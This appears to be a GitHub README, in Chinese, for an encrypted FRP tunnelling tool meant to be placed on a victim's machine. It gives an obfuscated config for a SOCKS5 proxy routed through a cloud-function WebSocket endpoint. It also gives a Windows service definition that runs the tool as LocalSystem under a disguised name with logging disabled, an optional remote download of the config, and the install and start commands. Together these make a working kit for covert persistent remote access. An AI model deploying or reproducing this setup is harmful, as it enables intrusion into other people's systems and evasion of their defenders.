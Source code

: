# rfas
FRP采用云函数+TLS加密，采用Websocket通信，配置文件也做了加密
将压缩包上传到受害者机器，解压，运行
这里注意的一点是run.xml是run.exe的配置文件，用来定义自启服务的配置，文件名要和配置文件名字统一
zz是frp的配置文件
如果不想做流量加密，将f3p.exe替换为正常的frp文件即可，配置文件同理
尖括号<>里为参数说明，正式使用请删除

zz
```
[common]
n2PvV = service-xxxxxx.xxxx.bj.apigw.tencentcs.com <wss服务地址>
05ZBz = 443 <wss服务端口>
tx06L = qax!@#123 <连接服务器的token>
9XiEV = wss <WebSocket协议>
zSYqj = true
fV0yw = service-xxxxxx.xxxx.bj.apigw.tencentcs.com <wss服务地址>
LYn04 = false <是否自删除配置文件>

[plugin_socks55]
N4DCJ = tcp
aQmFn = 8999 <remote_port>
oAZdB = true
aYpEk = true
umsUv = socks5 <协议>
```
run.xml
```
<service>
    <id>AppMgemt</id>
    <name>AppMgemt</name>
    <description></description>
    <!--
    <download from="http://x.x.x.x/<frp配置文件>" to="%BASE%\zz" />
    !-->
    <executable>"%BASE%\f3p.exe"</executable>
    <arguments></arguments>
    <serviceaccount>
      <username>LocalSystem</username>
     <!--
       <username>NT AUTHORITY\SYSTEM</username>
     !-->
    </serviceaccount>
    <log mode="none"/>
</service>
```
run.exe install & run.exe start

<img width="864" alt="image" src="https://user-images.githubusercontent.com/26845888/153735306-d161b493-caa0-4a43-8422-947ffbdea34e.png">

扩展：https://github.com/winsw/winsw
